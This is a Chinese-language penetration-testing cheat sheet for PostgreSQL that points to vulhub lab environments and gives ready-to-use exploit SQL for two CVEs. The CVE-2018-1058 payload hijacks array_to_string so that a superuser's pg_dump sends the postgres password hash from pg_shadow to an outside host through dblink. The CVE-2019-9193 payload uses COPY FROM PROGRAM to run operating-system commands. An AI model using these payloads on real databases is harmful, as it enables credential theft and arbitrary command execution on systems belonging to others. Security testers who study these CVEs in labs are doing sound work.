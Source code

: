 ## **PostgreSQL**
查看系统版本
SELECT version();

## **CVE-2018-1058**

PostgreSQL 是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。
http://vulhub.org/#/environments/postgres/CVE-2018-1058/

**利用**
获取了postgres普通用户和密码。

执行一个准备反弹shell语句
```
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$ select dblink_connect((select 'hostaddr=10.0.0.1 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); SELECT pg_catalog.array_to_string($1,$2); $$ LANGUAGE SQL VOLATILE;
```

当管理员登录执行pg_dump语句后，反弹shell语句被触发生效。



^
## **PostgreSQL高权限命令执行漏洞(CVE-2019-9193)**
9.3到11版本，12也可能，存在一处“特性”。管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。
http://vulhub.org/#/environments/postgres/CVE-2019-9193/

**利用**
知道管理员账号密码，如postgres/postgres。

SELECT version();

登录，进入库，执行命令执行whoami
```
DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'whoami'; SELECT * FROM cmd_exec;
```